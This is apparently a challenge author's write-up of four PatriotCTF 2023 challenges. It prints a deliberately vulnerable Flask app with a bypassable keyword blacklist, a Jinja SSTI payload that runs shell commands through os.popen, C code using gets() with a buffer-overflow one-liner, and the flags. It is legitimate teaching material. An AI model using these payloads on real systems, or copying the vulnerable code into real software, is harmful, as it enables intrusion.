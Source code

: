 ```yaml
---
title: "PatriotCTF 2023 - Writeup"
description: "A  writeup for all the challenges I created for PatriotCTF 2023"
date: "9/10/23"
tags: [ctf]
published: true
---
```

<p align="center">
  <img src="https://competitivecyber.club/assets/patriotctf/img/patriotctf2021-banner-semitransparent.png" alt="PCTF Logo">
</p>

# PatriotCTF 2023
This year, we (Competitive Cyber at Mason) hosted PatriotCTF 2023. This was a CTF that was designed to be a bit more beginner friendly, but still have some challenges that would be fun for more experienced players. I created 4 challenges for this CTF, and I will be writing up the solutions for them here.

## Challenges

### [Web] - Pick Your Starter
#### Description
> No one seems to be able to guess my favorite animal... Can you?
#### Solution
This is a decently simple SSTI challenge with a blacklist, here is the source code for the `app.py` file:

```python
from flask import Flask, render_template, render_template_string

app = Flask(__name__)
app.static_folder = 'static'

starter_pokemon = {
    "charmander" : {
        "name": "Charmander",
        "type": "Fire",
        "abilities": ["Blaze", "Solar Power"],
        "height": "0.6m",
        "weight": "8.5 kg",
        "description": "Charmander is a Fire-type Pokémon known for its burning tail flame.",
        "picture": "https://assets.pokemon.com/assets/cms2/img/pokedex/full/004.png"
    },
    "bulbasaur" : {
        "name": "Bulbasaur",
        "type": "Grass/Poison",
        "abilities": ["Overgrow", "Chlorophyll"],
        "height": "0.7m",
        "weight": "6.9 kg",
        "description": "Bulbasaur is a dual-type Grass/Poison Pokémon known for the plant bulb on its back.",
        "picture": "https://archives.bulbagarden.net/media/upload/f/fb/0001Bulbasaur.png"
    },
    "squirtle" : {
        "name": "Squirtle",
        "type": "Water",
        "abilities": ["Torrent", "Rain Dish"],
        "height": "0.5m",
        "weight": "9.0 kg",
        "description": "Squirtle is a Water-type Pokémon known for its water cannons on its back.",
        "picture": "https://static.pokemonpets.com/images/monsters-images-800-800/7-Squirtle.webp"
    },
}

def blacklist(string):
    block = ["config", "update", "builtins", "\"", "'", "`", "|", " ", "[", "]", "+", "-"]
    
    for item in block:
        if item in string:
            return True
    return False


@app.route('/')
def index():
    render = render_template('index.html')
    return render_template_string(render)


@app.route('/<pokemon>')
def detail(pokemon):
    pokemon = pokemon.lower()
    try:
        render = render_template('pokemon_name.html', data=starter_pokemon[pokemon])
        return render_template_string(render)
    except:
        if blacklist(pokemon):
            return render_template('error.html')
            
        render = render_template('404.html', pokemon=pokemon)
        return render_template_string(render)

if __name__ == '__main__':
    app.run(debug=True)
```
You can see that there is a blacklist function that will block any input that contains any of the characters in the `block` list. However, if you look at the blacklist function, you can see that it does not block the `.` character. We can use this to our advantage to get RCE.

To do this, we can use the following payload: `http://chal.pctf.competitivecyber.club:5555/%7B%7Burl_for.__globals__.os.__dict__.popen(request.args.file).read()%7D%7D?file=cat%20../flag.txt`. This will allow us to execute the `cat /flag.txt` command on the server. We can then use this to read the flag file: `PCTF(wHOS7H47PoKEmoN)`.
![](https://i.imgur.com/D0TW1fJ.png)

### [pwn] - guessinggame
#### Description
> No one seems to be able to guess my favorite animal... Can you?
#### Solution
This is a pretty simple pwn challenge, you are given a binary that asks you to guess the favorite animal of the creator. If you guess correctly, you oddly still don't get the flag. Here's why:

Looking at the original source for the binary:
```c
#include <stdio.h>
#include <string.h>

void outputFlag() {
    char flag[35];
    FILE* pctfFlag = fopen("flag.txt", "r");

    if (pctfFlag == NULL) {
        printf("Unable to find flag.txt :(");
    } else {
        fgets(flag, 35, pctfFlag);
        printf("%s", flag);
    }
    fclose(pctfFlag);
}

int check(){
    char input[300];
    char favAnimal[8] = "Giraffe";
    int priv = 0;
    
    printf("Input guess: ");
    gets(input);

    if(strcmp(input, favAnimal)) {
        printf("ERRR! Wrong!\n");
    }
    else {
        printf("That's not my favorite animal... I promise!\n");
    }
    if(priv) {
        printf("I wasn't able to trick you...\n");
        outputFlag();
    }
}

int main(){
    printf("Hello there, friend! Can you guess my favorite animal?\n");
    check();
    return 0;
}
```
We can see that the check function is where the comparison is made, and if we guess correctly, we get the message `That's not my favorite animal... I promise!`. However, if we look at the check function, we can see that there is a variable called `priv` that is set to 0. If we can somehow set this to 1, we will get the flag.

To do this, we can use a buffer overflow. If we input a string that is longer than 300 characters, we will overflow the buffer and overwrite the value of `priv`. We can use python to do this for us:
```python
python3 -c "print('pctf'*76)" | nc chal.pctf.competitivecyber.club 9999
```
![](https://i.imgur.com/3bSFFYQ.png)
### [rev] - Wing_it
#### Description
> I'm just gonna wing it
Unfortunately, due to some technical issues we had to take this challenge down at the beginning of the CTF and were not able to get it back up in time. I will be releasing the challenge and solution here.

#### Solution
You are provided a binary that you must reverse called wing_it. 

You were asked to answer four trivia questions, the last of which did not fully give you the question needing you to reverse the binary in order to get it. 

The correct solution for each question is as follows:
1. the Concorde!
2. duh it's the Vin Fiz Flyer
3. AMeriCan aiRLiNEs
4. 100298


### [misc] - Uh Oh!
#### Description
> Uh Oh! While trying to add passwords to my wordlist, I accidentally added my own phone number! Can you tell me what line it's on?
> https://en.wikipedia.org/wiki/North_American_Numbering_Plan#Modern_plan
> Format: PCTF{linenumber_phonenumonlynumbers}


#### Solution
This was a pretty simple regex challenge, if you take a look at the wikipedia link provided, you can see that we are spefically looking for a number in the format `(NPA) NXX-XXXX`. 
![](https://i.imgur.com/vXBS24j.png)
If you adjust your regex accordingly, and run it against the provided wordlist, you will get the flag `PCTF{7731484_4043037283}`. 

I used the regex: `^[(][0-9]{3}[)][[:space:]][0-9]{3}[-][0-9]{4,6}$`
![](https://i.imgur.com/IOH7kXp.png)

Final command: `grep -E "^[(][0-9]{3}[)][[:space:]][0-9]{3}[-][0-9]{4,6}$" -n rockyou.txt`

## Conclusion
This was a really fun CTF to create, and I hope you enjoyed playing it! If you have any questions, feel free to reach out to me on any of my socials.
